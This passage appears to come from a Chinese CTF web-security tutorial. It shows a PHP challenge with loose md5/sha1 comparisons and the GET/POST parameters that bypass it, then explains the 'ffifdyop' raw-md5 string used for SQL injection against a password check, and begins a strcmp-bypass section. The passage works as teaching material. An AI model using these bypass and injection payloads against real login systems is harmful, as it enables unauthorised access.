 


### 10.1.3 混合使用
过滤如下：
```php
$a = $_GET["param1"];
$b = $_POST["param2"];
$c = $_GET["param3"];
$d = $_POST["param4"];

if($a==$b && md5($a)==md5($b) && $c!=$d && sha1($c)==sha1($d)){
    if(gettype($a)=='array' && gettype($c)=='array'){
        die("Oh.. no..");
}
    echo getenv("FLAG");
    echo " xiu_er_!!";

}else{
    echo "fail";
}
```
那么将其中一组改为特殊字符串，绕过其逻辑匹配，
```c
GET:
URL/?param1[]=1&param3=10932435112

POST:
URL/?param2[]=3&param4=aaroZmOk
```
### 10.1.3 md5($pass,true)与sql注入

`md5($pass,true)`
PHP 中的 `md5()` 函数在第二个参数为 `true` 时会将 `MD5` 哈希结果以二进制数据的形式进行返回，因 `MD5` 函数的返回值类型为字符串，故在返回结果前，二进制数据将使用 `ASCII` 进行 解码（二进制数据到文本字符的转化）

对于下面的这种情况：
```sql
SELECT * FROM data WHERE username = 'admin' and password ='" . md5($user_input, true)
```

可以使用下面的这个字符串绕过：
```
ffifdyop
```
其对应的字符串为：
```sql
'or'6�]��!r,��b
```
相当于`select * from admin where password=’'or 1` 实现 sql 注入
## 10.2 strcmp绕过

`strcmp`是比较两个字符串，如果`str1<str2` 则返回`<0` ，如果`str1`大于`str2`则返回`>0` ，如果两者相等则返回`0`。
